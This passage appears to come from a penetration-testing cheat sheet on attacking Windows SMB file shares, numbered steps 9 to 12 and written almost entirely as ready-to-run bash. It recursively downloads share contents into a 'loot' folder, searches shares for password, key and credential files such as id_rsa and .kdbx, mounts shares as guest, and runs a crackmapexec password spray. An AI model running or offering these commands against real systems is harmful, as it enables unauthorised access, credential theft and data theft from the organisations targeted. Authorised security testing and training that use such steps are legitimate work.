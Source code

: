 9) Access and recursively download share contents
```bash
# Interactive approach
SHARE='public'
mkdir -p loot/$TARGET/$SHARE
smbclient "//$TARGET/$SHARE" -N
# At the smb:> prompt:
#   recurse ON
#   prompt OFF
#   lcd loot/$TARGET/$SHARE
#   mget *

# One-liner non-interactive recursive pull (anonymous)
smbclient "//$TARGET/$SHARE" -N -c "recurse ON; prompt OFF; lcd loot/$TARGET/$SHARE; mget *"

# With credentials
smbclient "//$TARGET/$SHARE" -U "$USER%$PASS" -c "recurse ON; prompt OFF; lcd loot/$TARGET/$SHARE; mget *"
```

10) Recursively list shares and search for interesting files
```bash
# Recursively list a share (null or creds)
smbmap -H $TARGET -u '' -p '' -R $SHARE
# With creds and file name patterns
smbmap -H $TARGET -u "$USER" -p "$PASS" -R $SHARE -A 'pass|cred|config|.kdbx|.pem|.ppk|id_rsa'
```

11) Mount a share for fast browsing/loot
```bash
SHARE='public'
MNT="/mnt/${TARGET}_${SHARE}"
sudo mkdir -p "$MNT"

# Anonymous mount; adjust SMB version if needed (try 3.0, then 2.1, then 1.0)
sudo mount -t cifs "//$TARGET/$SHARE" "$MNT" -o guest,ro,vers=3.0 || \
sudo mount -t cifs "//$TARGET/$SHARE" "$MNT" -o guest,ro,vers=2.1 || \
sudo mount -t cifs "//$TARGET/$SHARE" "$MNT" -o guest,ro,vers=1.0

# With creds (read-only)
# sudo mount -t cifs "//$TARGET/$SHARE" "$MNT" -o username=$USER,password=$PASS,ro,vers=3.0
# When done:
# sudo umount "$MNT"
```

12) Targeted password spray (if you have a user list)
```bash
# CME single password spray across a user list
crackmapexec smb $TARGET -u users.txt -p 'Summer2024!' --continue-on-success

# Re-check shares with any successful credentials found
# crackmapexec smb $TARGET -u 'foundUser' -p 'foundPass' --shares
```
